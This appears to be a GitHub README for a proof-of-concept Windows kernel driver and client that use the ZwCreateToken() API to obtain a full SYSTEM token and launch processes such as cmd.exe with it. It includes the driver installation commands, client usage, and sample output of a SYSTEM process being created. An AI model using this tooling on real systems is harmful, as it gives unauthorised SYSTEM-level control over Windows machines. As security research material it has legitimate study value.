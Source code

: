 # CreateToken

PoCs to get full privileged SYSTEM token with `ZwCreateToken()` API.

## Installation

```
PS C:\> sc.exe create CreateToken type= kernel binpath= C:\Dev\CreateTokenDrv_x64.sys
PS C:\> sc.exe start CreateToken
```

## Client Program Usage

Client program performs `NT AUTHORITY\SYSTEM` process execution.

```
PS C:\Dev> .\CreateTokenClient.exe -h

CreateTokenClient - Client for CreateTokenDrv.

Usage: CreateTokenClient.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies command to execute. Default is "cmd.exe".
```

Command to execute can be specified with `-c` option.
If you do not specify any command, this PoC try to execute `cmd.exe` as a full privileged process:

```
PS C:\Dev> .\CreateTokenClient.exe

[>] Sending a query to \??\CreateToken.
[+] Got a handle to \??\CreateToken (Handle = 0x2D0)
[+] Got a privileged token (Handle = 0x2D4).
[>] Trying to create new process.
    [*] Command : cmd.exe
[+] New process is created successfully.
    [*] Process ID : 2936
    [*] Thread ID  : 7020
[*] Done.
```

![](./figures/CreateToken.png)